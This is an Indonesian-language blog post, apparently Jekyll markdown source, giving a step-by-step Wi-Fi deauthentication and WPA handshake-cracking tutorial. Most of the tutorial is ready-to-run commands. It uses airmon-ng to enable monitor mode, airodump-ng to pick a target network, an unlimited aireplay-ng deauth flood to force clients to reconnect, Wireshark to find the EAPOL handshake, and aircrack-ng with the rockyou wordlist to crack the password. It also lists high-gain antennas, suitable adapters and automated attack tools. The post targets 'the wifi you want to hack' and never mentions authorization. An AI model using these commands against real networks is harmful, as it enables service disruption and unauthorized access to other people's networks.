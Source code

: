 ```yaml
---
layout: post
title: Wi-Fi hacking deauthentication attack
date: 2021-05-06 05:24
category: Hacking
author: irfnrdh
tags: []
summary: 
---
```


## Pengenalan Dasar deauthentication attack
- https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack
- https://www.aircrack-ng.org/doku.php?id=deauthentication
- https://www.google.com/search?q=deauth+attack

## Kebutuhan :
- VMWare [Link Download](https://www.google.com/search?q=VMware+Download+full)
- Kali Linux VMware Version [Link Download](https://www.kali.org/downloads/)
- Alfa AWUSO36NH/A = Rp660.000  [Link Pembelian](https://www.tokopedia.com/search?st=product&q=Alfa%20AWUSO36NHA&navsource=kodekeras.my.id)
  Tambahan Antena:
  - Antenna yang lebih besar:
  - Panel 7dB,
  - Radar 8dB,
  - Omni 9dB,
  - Panel indoor 10dB,
  - Yagi 16dB
  - Panel 19dB (butuh kabel pigtail)
  - Grid 24dB (butuh kabel pigtail)
  - Kabel USB Extender 10 meter
  - Router ALFA R36  
> Kamu bebas!. Bisa pakai cara lain yang disuka selain dengan virtual dengan VMware

## Aksi :

### 1. Melihat Versi Kali Linux
```
cat /etc/os-release
uname -a
```

### 2. Melihat Netwok Interface yang ada
```
ip addr
iwconfig
```

### 3. Memberhentikan proses yang ada
```
sudo airmon-ng check kill
```

### 4. Memulai Mode Monitoring Jaringan
```
sudo airmon-ng start wlan0
```

### 5. Memverifikasi mode monitor yang digunakan
```
sudo airmon-ng 
```

### 6. Bisa juga menggunakan iwconfig untukj mengecek interface mode monitornya
```
iwconfig
```

### 7. Mendapatkan Akses Point MAC Address dan channel
```
sudo airodump-ng wlan0mon
``` 

### 8. Pilih AP-MAC & channel sesuai dengan wifi yang ingin di hack
```
Contoh 
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2
```

### 9. Buka dua tab jendela, tab pertama 
Pastikan sudah menggantikan nomor channel dan bssid sesuai dengan pilihan
kamu bisa ganti kata hack1 dengan nama file sesuka kamu seperti tangkapan1 atau lainnya
```
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```

### 10. Pada tab jendela kedua, lakukan deauth attack
Pastikan kamu sudah menggantikan bssidnya dengan punya kamu
```
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### 12. Gunakan Wireshark untuk membuka file hasil monitor
```
wireshark hack1-01.cap
```
### 13. Lalukan filtering pada wireshark untuk kata "EAPOL"
```
eapol
```

### 14. Hentikan Monitor Modenya 
```
airmon-ng stop wlan0mon
``` 

### 15. Crack the code
Langkah terakhir adalah crack file dengan rockyou ataupun wordlist lainnya
pastikan kamu sudah ada rockyou dengan format .txt bukan dalam kompresan 
```
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 
```

## Selamat Mencoba!
jika langkah ini terlalu panjang, kamu bisa gunakan automation dengan coding!
<script src="https://gist.github.com/irfnrdh/7a9fdb5b15649af356f0884f90db4be7.js"></script>
[Uji Coba versi keduanya!](https://github.com/derv82/wifite2)

## Update Perangkat yang Support

Lainnya : fluxion, wifiphiser, airgeddon, wirespy, rogue, esp8266_deauther

- https://www.kalilinux.in/2020/07/wifi-adapter-kali-linux-2020.html
- https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html
- https://www.wirelesshack.org/best-usb-wireless-network-adapters.html
- https://tuxurbanjournal.wordpress.com
- http://ueu6165.weblog.esaunggul.ac.id/
- https://github.com/v1s1t0r1sh3r3/airgeddon/wiki/Cards%20and%20Chipsets

Chip 	  : Atheros AR9271
Interface : USB
Standard  : IEEE 802.11 b/g/n
Speed     : up to 150 Mbps

TP Link TL WN722N version 1 

Supports 
1. Monitor mode / promiscuous mode 
2. packet injection 

on Kali Linux, Parrot Security even in RPi.

Most Chipset Work:
- Atheros AR9271 (paling disukai & sayang only supports 2.4 GHz).
- Ralink RT3070.
- Ralink RT3572.
- Ralink RT5370N
- Ralink RT5372.
- Ralink RT5572.
- RealTek 8187L (Wireless G adapters)
- RealTek RTL8812AU (RTL8812BU & Realtek8811AU doesn’t support monitor mode).
- RealTek RTL8814AU

check chipset `$ lsusb`

Supports security protocols: 64/128-bit wep, wpa, wpa2, tkip, aes

1. Alfa AWUS036NH (Atheros AR 9271) Good Old Friend
2. Alfa AWUS036NHA (Ralink RT 3070) Best in it’s Price Range
3. Alfa AWUS036NEH (Ralink RT 3070) Compact and Portable
4. Panda PAU09 N600 (Ralink RT5572) Stylish for the Beginners
5. Alfa AWUS036ACH (RealTek RTL8812AU) Smart Look & Advanced
6. Alfa AC1900 (RealTek RTL8814AU) Powerful & Premium
7. Panda PAU 06 (Ralink RT5372) Chip, Single Band
8. USB Adapter 802.11N 150Mbps MediaTek 7601 (sering bermasalah)


https://thezoo.morirt.com
